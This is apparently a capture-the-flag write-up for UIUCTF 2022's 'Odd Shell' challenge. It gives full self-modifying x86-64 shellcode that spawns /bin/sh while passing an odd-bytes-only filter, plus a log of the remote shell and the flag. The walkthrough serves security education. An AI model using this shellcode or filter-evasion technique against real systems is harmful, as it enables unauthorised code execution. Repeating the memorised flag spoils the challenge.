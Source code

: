 # UIUCTF 2022 - Odd Shell Writeup
- Type - pwn
- Name - Odd Shell
- Points - 107

## Description
```markdown
O ho! You found me! I have a display of oddities available to you!

$ nc odd-shell.chal.uiuc.tf 1337

author: Surg
```

## Writeup
I decided to spawn a shell using the `syscall` approach (see the entry for `execve` in the [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to see how I had to set registers). I used an [online x86/6x assembler](https://defuse.ca/online-x86-assembler.htm#disassembly) to test my assembly commands and ensure they were all odd. Since some important instructions were only even, I took a dynamic approach, where I had the instructions change future instructions.

For example, if I wanted the instruction `xor rsi,rsi` to zero out the `rsi` register, the assembly would be `48 31 f6`. Since both `48` and `f6` were even, I modified them to odd instructions (`xor r13d,r14d`, which was `45 31 f5`), and then wrote instructions that added 3 to 45 and 1 to f6. This transformed `xor r13d,r14d` to `xor rsi,rsi`, then ran the instruction. I also stored the string `/bin/sh` at the beginning of the memory address provided for our shellcode, and copied that address from the `rdx` register. Register 15 (`r15`) was my main scratch register. 

Shellcode:
```assembly
### PUT "/bin/sh" AT BEGINNING OF INSTRUCTIONS ###
# move address for instruction start to r15
mov   r15,rdx

# create "nib/" (0x6d69612f) in rcx, then move to r15
mov   ecx,0x010d31b1
imul  ecx,ecx,0x69
add   ecx,0x7f
add   ecx,0x17
mov   DWORD PTR[r15],ecx

# shift r15 by 4 for next part of string
add   r15,3
add   r15,1

# create "\x00hs/" (0x0068732F) in rcx, then move to r15
mov   ecx,0x016973b5
sub   ecx,0x01010101
add   ecx,0x7b
mov   DWORD PTR[r15],ecx


### MOVE $rdx into $rdi ###
mov    r15,rdx
add    r15,0x3b
add    r15,0x1
add    DWORD PTR[r15],0x3
mov    r15d,r10d


### PUT 0 INTO $rsi ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x55
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x57
add    DWORD PTR[r15],0x1

xor    r13d,r14d          # (45 31 f5) --> xor rsi,rsi (48 31 f6)


### PUT 0 INTO $rdx ###
# add 3 to first part of XOR
mov    r15,rdx
add    r15,0x75
add    r15,0x1
add    DWORD PTR[r15],0x3

# add 1 to third part of XOR
mov    r15,rdx
add    r15,0x77
add    r15,0x1
add    DWORD PTR[r15],0x1

xor    r9d,r10d          # (45 31 d1) --> xor rdx,rdx (48 31 d2)


### PUT 59 INTO $rax ###
# random instruction for offset
xor    r13,r13

# add 7 to first part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1b
add    DWORD PTR[r15],0x7

# subtract 1 from third part of XOR
mov    r15,rdi
add    r15,0x7f
add    r15,0x1d
sub    DWORD PTR[r15],0x1

add    r9d,0x3b          # (41 83 c1 3b) --> add rax,0x3b (48 83 c0 3b)


### SYSCALL ###
syscall
```

I then put this shellcode into a Python script with pwntools ([odd.py](odd.py)) and ran it! Results:

```bash
$ python3 odd.py REMOTE
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
Display your oddities:
$ whoami
user
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
$
[*] Closed connection to odd-shell.chal.uiuc.tf port 1337
```

**Flag:** `uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
